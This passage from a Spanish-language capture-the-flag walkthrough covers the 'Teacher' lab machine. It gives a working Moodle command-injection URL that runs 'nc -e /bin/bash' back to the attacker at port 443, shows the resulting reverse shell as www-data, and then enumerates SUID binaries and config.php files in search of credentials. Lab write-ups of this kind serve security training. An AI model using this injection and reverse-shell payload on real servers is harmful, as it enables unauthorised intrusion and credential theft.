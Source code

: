 Vemos que hemos recibido una traza icmp de la dirección IP 10.10.10.153, que es la máquina víctima; así que ahora vamos a tratar de entablarnos una reverse shell, nos ponemos en escucha por el puerto 443:

 - http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=nc%20-e%20%22/bin/bash%22%2010.10.14.24%20443

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.153] 46242
whoami
www-data
```

Hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar más cómodos. Una vez hecho, nos encontramos dentro de la máquina como el usuario `www-data` y no podemos visualizar la flag dentro del directorio `/home/giovanni`; asi que vamos a buscar una forma de escalar privilegios enumerando un poco el sistema:

```bash
www-data@teacher:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@teacher:/home$ sudo -l
bash: sudo: command not found
www-data@teacher:/home$ cd /
www-data@teacher:/$ find \-perm -4000 2>/dev/null
./bin/ping
./bin/su
./bin/fusermount
./bin/umount
./bin/mount
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/passwd
www-data@teacher:/$
```

No vemos nada interesante, así que vamos al recurso `/var/www/html/moodle` para ver si existe algo que podamos utilizar:

```bash
www-data@teacher:/var/www/html/moodle$ find \-name *config.php 2>/dev/null
./cache/classes/config.php
./lib/editor/tinymce/plugins/spellchecker/config.php
./config.php
./mod/chat/gui_ajax/theme/course_theme/config.php
./mod/chat/gui_ajax/theme/bubble/config.php
./mod/chat/gui_ajax/theme/compact/config.php
./theme/more/config.php
./theme/clean/config.php
./theme/bootstrapbase/config.php
./theme/boost/config.php
www-data@teacher:/var/www/html/moodle$
```
